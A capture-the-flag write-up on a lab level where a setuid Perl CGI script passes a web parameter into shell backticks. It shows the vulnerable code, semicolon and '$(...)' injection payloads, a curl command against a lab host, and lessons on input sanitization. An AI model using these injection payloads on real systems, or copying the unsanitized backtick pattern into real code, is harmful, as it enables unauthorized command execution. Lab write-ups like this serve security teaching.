


# 📜 Level04 Writeup

## Level Overview

**Category:** Web Application Security / Command Injection

**Description:**

The challenge involves exploiting a Perl CGI script that processes user input without proper sanitization, leading to command injection vulnerability. The script runs with elevated privileges due to setuid/setgid bits, making it a high-value target for privilege escalation.

## Analysis

### **Initial Investigation**

Entering this level, we discover a Perl script with elevated privileges:



**File Properties:**
- **Type:** Perl script
- **Permissions:** Setuid and setgid bits set
- **Significance:** Script executes with elevated privileges
- **Owner:** `flag04` user


**Service Analysis:**
- **Port:** 4747
- **Protocol:** HTTP CGI
- **Framework:** Perl CGI module
- **Access:** Web-based interface

### **Source Code Analysis**

The script content reveals a CGI application with input processing functionality:

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```



### **Code Flow Analysis**

**Application Logic:**

| Component | Function | Security Impact |
|-----------|----------|----------------|
| `CGI qw{param}` | Imports parameter handling | Processes user input from web requests |
| `param("x")` | Retrieves 'x' parameter | GET/POST data directly accessed |
| `sub x` | Processing function | Takes user input as argument |
| `$y = $_[0]` | Variable assignment | No input validation performed |
| `print echo $y 2>&1` | Command execution | **CRITICAL: Direct shell execution** |

### **Vulnerability Assessment**

**Command Injection Vulnerability:**

**Root Cause:** The script uses backticks to execute shell commands with user-controlled input without sanitization.

**Attack Vector Analysis:**
1. **Input Source:** HTTP parameter 'x' from GET/POST requests
2. **Processing:** Direct assignment to shell command
3. **Execution:** Backticks execute the command with injected input
4. **Privileges:** Runs with setuid/setgid elevated permissions

**Vulnerability Pattern:**
```perl
$y = $_[0];           # User input assigned directly
print `echo $y 2>&1`; # Shell command execution without sanitization
```

**Risk Assessment:**
- **Impact:** High - Full command execution with elevated privileges
- **Exploitability:** High - Direct web interface access
- **Complexity:** Low - Simple parameter injection

✅ **Conclusion:** Critical command injection vulnerability in privileged CGI script.

## Exploitation Process

### **Attack Strategy**

The vulnerability allows command injection through shell metacharacters. We can append additional commands using the semicolon (`;`) separator.

**Injection Technique:**
- **Target Parameter:** 'x' in HTTP request
- **Payload Structure:** `legitimate_command; malicious_command`
- **Shell Interpretation:** Semicolon acts as command separator
- **Result:** Both commands execute in sequence

### **Payload Construction**

**Basic Payload:**
```
test;getflag
```

**URL Encoding Requirements:**
- **Raw Semicolon:** `;` 
- **URL Encoded:** `%3B`
- **Final Payload:** `test%3Bgetflag`

**Encoding Rationale:**
- **Web Standards:** URLs must encode special characters
- **Shell Safety:** Prevents premature command interpretation
- **Server Processing:** Ensures proper parameter parsing

### **Exploit Execution**

We can exploit this vulnerability using multiple injection techniques:

**Method 1: Semicolon Command Separator**
```bash
# URL: localhost:4747?x=test%3Bgetflag
# Executes: echo test; getflag
```

**Method 2: Command Substitution**
```bash
curl 'http://10.13.100.44:4747?x=hello$(getflag)'
```

**Attack Execution Analysis:**
1. **Access:** Navigate to `localhost:4747` or use curl
2. **Parameter Options:** 
   - Semicolon injection: `x=test%3Bgetflag`
   - Command substitution: `x=hello$(getflag)`
3. **Processing:** Script executes injected commands within echo
4. **Result:** Commands execute with `flag04` permissions

**Command Substitution Breakdown:**
```bash
echo hello$(getflag)    # Command substitution executes getflag
# Output: helloCheck flag.Here is your token : ********************************
```

**Curl Command Output:**
```
helloCheck flag.Here is your token : ***********************
```

### **Successful Exploitation**

The injection successfully retrieves the flag with elevated privileges.

**Password Retrieved:**
```
************************
```

## Conclusion

**Vulnerability Summary:**
This level demonstrates a critical command injection vulnerability in a Perl CGI script that processes user input without sanitization, combined with elevated privileges through setuid/setgid bits.

**Technical Analysis:**

| Vulnerability Aspect | Details | Impact |
|---------------------|---------|---------|
| **Input Validation** | None implemented | Direct shell command injection |
| **Command Execution** | Backticks with user data | Full system command access |
| **Privilege Context** | Setuid/setgid enabled | Elevated privilege execution |
| **Attack Complexity** | Minimal - single parameter | Easy remote exploitation |

**Security Lessons:**
1. **Input Sanitization:** Always validate and sanitize user input before shell execution
2. **Privilege Separation:** Avoid setuid/setgid for web-facing applications
3. **Safe Execution:** Use parameterized commands instead of shell interpretation
4. **Defense in Depth:** Implement multiple layers of security controls
